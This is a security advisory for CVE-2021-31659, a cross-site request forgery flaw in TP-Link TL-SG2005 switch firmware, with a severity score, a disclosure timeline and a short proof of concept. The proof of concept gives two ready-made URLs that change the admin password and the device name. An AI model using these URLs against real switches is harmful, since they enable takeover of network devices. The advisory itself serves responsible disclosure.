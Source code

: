 # CSRF on TP-Link Smart Switch

## Overview

- **CVE ID**: [CVE-2021-31659](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31659)

- **Type**: [Cross-Site Request Forgery (CSRF) *- (352)*](http://cwe.mitre.org/data/definitions/352.html)

- **Vendor**: TP-LINK (https://www.tp-link.com)

- **Products**: Switch, such as [TL-SG2005](https://www.tp-link.com.cn/product_925.html), TL-SG2008(US), etc.

- **Version**: 2.0 (1.0.0 Build 20180529 Rel.40524)


## Severity

**High** 8.3 CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:H

## Description

TL-SG2005 is vulnerable to Cross Site Request Forgery (CSRF). All configuration information is placed in the URL, without any additional token authentication information. A malicious link opened by the switch administrator may cause the password of the switch to be modified and the configuration file to be tampered with. 

PoC

```shell
# modify password
http://192.168.0.1/usr_account_set.cgi?txt_username=admin&txt_oldpwd=admin&txt_userpwd=admin123&txt_confirmpwd=admin123

# modify name
http://192.168.0.1/system_name_set.cgi?sysName=TL-SG2005
```

Reason

All parameters are placed in the URL and no token is set, which leads to CSRF attack on the switch. The attacker can set all the configurations of the switch, and even set up port mirroring to capture user Internet traffic.

## Disclosure Timeline

- 10-Apr-2021 Discoverd the vulnerability
- 11-Apr-2021 Responsibly disclosed vulnerability to vendor
- 13-Apr-2021 Vendor Acknowledged the issue
- 16-Apr-2021 Requested for CVE-ID assignment
- 23-Apr-2021 CVE-ID Assigned
- 26-May-2021 Notify CVE about a publication
